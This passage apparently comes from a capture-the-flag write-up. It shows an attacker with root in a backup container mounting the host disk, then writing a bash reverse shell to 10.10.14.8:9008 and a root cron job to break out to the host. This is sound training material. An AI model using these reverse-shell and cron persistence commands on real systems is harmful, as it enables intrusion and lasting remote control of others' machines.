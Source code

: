 ```bash
root@backup:~# mount /dev/sda2 /mnt
mount /dev/sda2 /mnt
```

```bash
root@backup:~# ls -lha /mnt

total 128K
drwxr-xr-x  23 root root 4.0K Dec  6  2023 .
drwxr-xr-x   1 root root 4.0K Jul 15  2018 ..
drwxr-xr-x   2 root root  12K Dec  6  2023 bin
drwxr-xr-x   2 root root 4.0K Jul 15  2018 boot
drwxr-xr-x   4 root root 4.0K Jul 15  2018 dev
drwxr-xr-x 100 root root  12K Dec  6  2023 etc
drwxr-xr-x   5 root root 4.0K Apr  9  2021 home
lrwxrwxrwx   1 root root   34 Dec  6  2023 initrd.img -> boot/initrd.img-4.15.0-213-generic
lrwxrwxrwx   1 root root   33 Dec  6  2023 initrd.img.old -> boot/initrd.img-4.4.0-130-generic
drwxr-xr-x  24 root root 4.0K Dec  6  2023 lib
drwxr-xr-x   2 root root 4.0K Dec  6  2023 lib64
drwx------   2 root root  16K Apr  1  2018 lost+found
drwxr-xr-x   3 root root 4.0K Jul 15  2018 media
drwxr-xr-x   2 root root 4.0K Jul 15  2018 mnt
drwxr-xr-x   3 root root 4.0K Jul 15  2018 opt
drwxr-xr-x   2 root root 4.0K Jul 15  2018 proc
drwx------   5 root root 4.0K Aug 22 21:44 root
drwxr-xr-x   2 root root 4.0K Jul 15  2018 run
drwxr-xr-x   2 root root  12K Dec  6  2023 sbin
drwxr-xr-x   2 root root 4.0K Jul 15  2018 snap
drwxr-xr-x   2 root root 4.0K Jul 15  2018 srv
drwxr-xr-x   2 root root 4.0K Jul 15  2018 sys
drwxrwxrwt  11 root root 4.0K Aug 23 22:52 tmp
drwxr-xr-x  10 root root 4.0K Jul 15  2018 usr
drwxr-xr-x  13 root root 4.0K Jul 15  2018 var
lrwxrwxrwx   1 root root   31 Dec  6  2023 vmlinuz -> boot/vmlinuz-4.15.0-213-generic
lrwxrwxrwx   1 root root   30 Dec  6  2023 vmlinuz.old -> boot/vmlinuz-4.4.0-130-generic
```

With access to the main partition and could use the same cron job strategy here to, this time, connect back direct to our Kali.

```bash
root@backup:~# echo "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &" > /mnt/tmp/shell.sh
<c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &" > /mnt/tmp/shell.sh
```

```bash
root@backup:~# cat /mnt/tmp/shell.sh
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9008 0>&1' &
```

Then the cron job file.

```bash
root@backup:~# echo '* * * * * root sh /tmp/shell.sh' > /mnt/etc/cron.d/shell
echo '* * * * * root sh /tmp/shell.sh' > /mnt/etc/cron.d/shell
```
